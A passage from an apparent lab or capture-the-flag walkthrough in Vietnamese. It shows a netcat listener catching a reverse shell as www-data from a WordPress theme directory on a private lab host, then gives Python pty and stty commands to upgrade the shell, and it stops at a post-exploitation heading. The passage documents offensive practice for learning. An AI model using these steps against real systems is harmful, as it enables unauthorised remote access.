 ```bash
nc -lnvp 8000
```
Ket qua:
```bash
┌──(t6d㉿t6d)-[~]
└─$ nc -nlvp 8000
listening on [any] 8000 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.102] 47338
bash: cannot set terminal process group (1212): Inappropriate ioctl for device
bash: no job control in this shell
www-data@vtcsec:/var/www/html/secret/wp-content/themes/twentyseventeen$ ls
ls
404.php
README.txt
archive.php
assets
comments.php
cropped-DGMYOGRtKc.jpg
cropped-bTebJPoYLc.jpg
cropped-vZNtpxHXPE.jpg
cropped-wigkTuSPSp.jpg
footer.php
front-page.php
functions.php
header.php
inc
index.php
page.php
rtl.css
screenshot.png
search.php
searchform.php
sidebar.php
single.php
style.css
template-parts
www-data@vtcsec:/var/www/html/secret/wp-content/themes/twentyseventeen$ whoami
<ml/secret/wp-content/themes/twentyseventeen$ whoami                         
www-data
```
Ta su dung `TTY Spawn Shell` de tien cho su dung:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116
```
Ta setup thanh cong
# Post - Exploitation
## Enumeration
